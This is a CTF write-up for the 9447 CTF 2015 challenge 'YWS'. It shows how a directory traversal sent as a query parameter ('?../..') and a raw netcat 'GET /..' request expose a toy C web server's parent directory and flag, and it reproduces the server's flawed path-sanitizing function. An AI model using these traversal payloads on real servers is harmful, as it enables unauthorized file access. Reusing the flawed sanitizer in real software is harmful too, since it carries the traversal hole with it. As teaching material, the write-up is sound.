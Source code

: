 Title: CTF writeup - 9447 CTF 2015: YWS
Category: Infosec
Tags: ctf, directory traversal
Summary: Directory traversal and directory listing


## Challenge
> My friend wrote a cool web server. I'm sure he's stored some great doxxxs on the website. Can you take a look and report back any interesting things you find?

> The web page is at http://yws-fsiqc922.9447.plumbing

> Hint! Where does the website not want you to go?

## Writeup
The first thing to try is robots.txt.
```text
$ curl http://yws-fsiqc922.9447.plumbing/robots.txt
User-agnet: *
Disallow: /
Disallow: /..
Disallow: .
Disallow: ..
Disallow: /work
Disallow: /imegas/
Allow: /sounds/pljesus.wav
```

Seems the author had dyslexia, but navigating to the `/images` folder leads to a [directory listing](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Directory_Indexing).
```html
$ curl http://yws-fsiqc922.9447.plumbing/images
<html>
<head>
<title>Directory listing for /images</title>
</head>
<body>
<h2>Directory listing for /images</h2>
<hr>
<ul>
<li><a href="/images/.">.</a>
<li><a href="/images/aangel2.gif">aangel2.gif</a>
<li><a href="/images/dj2.gif">dj2.gif</a>
<li><a href="/images/..">..</a>
<li><a href="/images/rand_tile1.jpg">rand_tile1.jpg</a>
<li><a href="/images/djangopowered126x54.gif">djangopowered126x54.gif</a>
<li><a href="/images/php.jpg">php.jpg</a>
<li><a href="/images/dj1.gif">dj1.gif</a>
<li><a href="/images/secret_images">secret_images</a>
<li><a href="/images/jboogie.gif">jboogie.gif</a>
<li><a href="/images/dj3.gif">dj3.gif</a>
<li><a href="/images/aangel1.gif">aangel1.gif</a>
<li><a href="/images/remail.gif">remail.gif</a>
</ul>
<hr>
</body>
</html>
```

You can also list the web app's root by adding 2 slashes.
```html
$ curl http://yws-fsiqc922.9447.plumbing//
<html>
<head>
<title>Directory listing for /</title>
</head>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
<li><a href="//.">.</a>
<li><a href="//images">images</a>
<li><a href="//sounds">sounds</a>
<li><a href="//400.html">400.html</a>
<li><a href="//..">..</a>
<li><a href="//robots.txt">robots.txt</a>
<li><a href="//index.html">index.html</a>
</ul>
<hr>
</body>
</html>
```

Following the hint, we have to do a [directory traversal attack](https://www.owasp.org/index.php/Path_Traversal) and, since directory listing is enabled on the server, we can simply do it on paths instead of specific files.
Trying to list `/..` with curl didn't work and simply showed the website's main page.
```text
$ curl 'http://yws-fsiqc922.9447.plumbing/..'
```
Adding multiple `../` didn't work either.

It finally worked by adding the directory traversal as a query param.
```html
$ curl 'http://yws-fsiqc922.9447.plumbing/?../..'
<html>
<head>
<title>Directory listing for /..</title>
</head>
<body>
<h2>Directory listing for /..</h2>
<hr>
<ul>
<li><a href="/../9447{D1rect0ries_ARe_h4rd}">9447{D1rect0ries_ARe_h4rd}</a>
<li><a href="/../.">.</a>
<li><a href="/../..">..</a>
<li><a href="/../gws">gws</a>
<li><a href="/../files">files</a>
</ul>
<hr>
</body>
</html>
```

Flag: `9447{D1rect0ries_ARe_h4rd}`

## curl gotcha
After the CTF, I followed discussions on IRC and learned that curl will "fix" the path for you before sending the query.
```text hl_lines="1 6"

$ curl -v http://127.0.0.1:8080/../../..
* Rebuilt URL to: http://127.0.0.1:8080/
* Hostname was NOT found in DNS cache
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.38.0
> Host: 127.0.0.1:8080
> Accept: */*
```

Most people seem to have used BurpSuite or a plain connection with netcat to get the flag:
```bash
printf "GET /.. HTTP/1.1\r\n\r\n" | nc yws-fsiqc922.9447.plumbing 80
```

## Why adding it as a query param worked
I didn't understand why adding the directory traversal after a `?` worked, since the vulnerability was in the path, not a query param.

I looked at the source code that the organizers uploaded after the CTF, and it turns out that the `extractUrl` function will strip extra levels of `../`.
It only keeps the last one, so it strips the `?` at the same time: `?../..` becomes `/..`.
Here is the function from the source code:
```c
int extractURL(char *urlS, int urlSize, char *fileN, int fileNMaxSize) {
    // Verify it starts with '/'.
    if (urlSize < 1 || urlS[0] != '/') return -1;
    int curS = 1;
    fileN[0] = '/';
    fileN[1] = 0;
    int i;
    for (i = 1; i < urlSize; i++) {
        if (curS == fileNMaxSize) {
            return -1;
        }
        fileN[curS++] = urlS[i];
        fileN[curS] = 0;
        if (strcmp(&fileN[curS - 3], "../") == 0) {
            curS -= 4;
            while (fileN[--curS] != '/');
            curS++;
        }
        if (strcmp(&fileN[curS - 2], "./") == 0) {
            curS -= 2;
        }
    }
    if (strcmp(fileN, "/") == 0) {
        strcpy(fileN, "/index.html");
    } else if (fileN[curS - 1] == '/') {
        fileN[curS - 1] = 0;
    }
    return 0;
}
```
